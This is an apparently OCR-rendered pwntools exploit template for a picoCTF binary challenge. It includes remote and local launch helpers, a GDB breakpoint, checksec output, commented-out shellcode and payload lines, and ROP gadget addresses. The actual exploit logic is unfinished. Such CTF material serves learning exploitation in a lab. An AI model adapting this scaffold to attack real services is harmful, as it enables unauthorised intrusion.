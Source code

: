 ```py
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mercury.picoctf.net'
port = int(args.PORT or 49464)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    print(ld.path)
    print(libc.path)
    p = process([ld.path, exe.path] + argv, env={"LD_PRELOAD": libc.path}, *a, **kw)
    if args.GDB:
        gdb.attach(p, gdbscript=gdbscript)
    return p


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b*0x004006d8
'''.format(**locals())
context.terminal = ["tmux", "splitw", "-h"]

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'./'

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

vuln = 0x004006d8

poprdi = 0x0000000000400913
ret = 0x000000000040052e
```